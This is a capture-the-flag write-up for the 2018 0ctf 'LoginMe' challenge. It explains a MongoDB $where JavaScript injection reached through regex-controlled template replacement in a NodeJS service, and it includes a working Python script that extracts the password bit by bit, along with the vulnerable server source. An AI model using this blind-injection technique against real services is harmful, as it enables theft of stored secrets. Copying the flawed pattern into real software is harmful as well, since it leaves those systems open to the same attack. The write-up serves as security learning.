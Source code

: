 2018 0ctf quals – LoginMe
=========================

We were given a NodeJS service and source that uses MongoDB. The `check` endpont runs a mongo query, partially
controlled by us, and if the query succeeds, it responds `ok`.

The following template is used to generate a mongo `$where` JavaScript filter:

    'if(this.username == #username# && #username# == "admin" && hex_md5(#password#) == this.'+password_column+'){\nreturn 1;\n}else{\nreturn 0;}'

where the parameters were interpolated as `JSON.stringify(req.body[k])`. At first, I was considering a solution where
we abuse the `bodyParser` to return fancy objects, but then I realized there is no way I could escape the
`hex_md5(#password#)` part.

Look at the custom template code:

    for(var k in req.body){
        var valid = ['#','(',')'].every((x)=>{return req.body[k].indexOf(x) == -1});
        if(!valid) res.send('Nope');
        check_function = check_function.replace(
            new RegExp('#'+k+'#','gm')
            ,JSON.stringify(req.body[k]))
    }

Notice that `res.send('Nope');` doesn't return the function. The code continues to run, but at this point we lost our
only bit of leaked information, so we have to conform the character blacklist. Fortunately we have RegExp control
characters enabled, so we can abuse that to replace more of the template. `|` for escape the `#` markers, and `$1` to
include match groups. I ended up replacing the whole string. In the end, the query sent to mongo looked like this:

    { '$where': '"";((this.password_wblm2gvcl0p.charCodeAt(16) >>> 0) & 1) || lolwut;""' } { '$set': { last_access: '2018-04-04 19:59:15 +02:00' } }
    
When mongo returns with an error (because it could not evaluate the expression as `lolwut` is not defined), the http
connection is closed abruptly. I ended up adding some retry logic to mitigate network errors corrupting our precious
bits.

Flag: `flag{13fc892df79a86494792e14dcbef252a}`


Solution source
===============

```python3
import requests
from collections import OrderedDict

import os
import time
#os.environ["HTTP_PROXY"] = "localhost:8888"

prefix = "13fc892df79a86494792e14dcbef252a"
prefix = "---------------- 7  e   c       "

URL = "http://202.120.7.194:8082/check"
#URL = "http://localhost:8081/check"

def _test(i, c):
  try:
    resp = requests.post(URL, data=OrderedDict([
      ("|.*(.)this.*(this.password_\\w*)(.)(.|\n)*|", ";$1$1$2.charCodeAt$1{}$3 >>> {}$3 & 1$3 || lolwut;".format(i, c)),
      ("|\"|", ""),
    ]))
    return resp.text == 'ok'
  except:
    return False

def test(i, c):
  return _test(i, c) or _test(i, c)

def get_char(i):
  cc = 0
  for b in range(8):
    if test(i, b):
      cc |= 1 << b
  return cc

for i,c in enumerate(prefix):
  if c == ' ':
    print("so far: {!r}".format(prefix))
    print("         " + " "*i+"*")
    nc = get_char(i)
    if nc == 0 or nc == 255:
      raise Exception('could not find')
    prefix = prefix[:i] + chr(nc) + prefix[i+1:]
print("SOLUTION {!r}".format(prefix))
```
 

Challenge source
================

```javascript
var express = require('express')
var app = express()

var bodyParser = require('body-parser')
app.use(bodyParser.urlencoded({}));

var path    = require("path");
var moment = require('moment');
var MongoClient = require('mongodb').MongoClient;
var url = "mongodb://localhost:27017/";

MongoClient.connect(url, function(err, db) {
    if (err) throw err;
    dbo = db.db("test_db");
    var collection_name = "users";
    var password_column = "password_"+Math.random().toString(36).slice(2)
    var password = "XXXXXXXXXXXXXXXXXXXXXX";
    // flag is flag{password}
    var myobj = { "username": "admin", "last_access": moment().format('YYYY-MM-DD HH:mm:ss Z')};
    myobj[password_column] = password;
    dbo.collection(collection_name).remove({});
    dbo.collection(collection_name).update(
        { name: myobj.name },
        myobj,
        { upsert: true }
    );

    app.get('/', function (req, res) {
        res.sendFile(path.join(__dirname,'index.html'));
    })
    app.post('/check', function (req, res) {
        var check_function = 'if(this.username == #username# && #username# == "admin" && hex_md5(#password#) == this.'+password_column+'){\nreturn 1;\n}else{\nreturn 0;}';

        for(var k in req.body){
            var valid = ['#','(',')'].every((x)=>{return req.body[k].indexOf(x) == -1});
            if(!valid) res.send('Nope');
            check_function = check_function.replace(
                new RegExp('#'+k+'#','gm')
                ,JSON.stringify(req.body[k]))
        }
        var query = {"$where" : check_function};
        var newvalue = {$set : {last_access: moment().format('YYYY-MM-DD HH:mm:ss Z')}}
        dbo.collection(collection_name).updateOne(query,newvalue,function (e,r){
            if(e) throw e;
            res.send('ok');
            // ... implementing, plz dont release this.
        });
    })
    app.listen(8081)

});
```
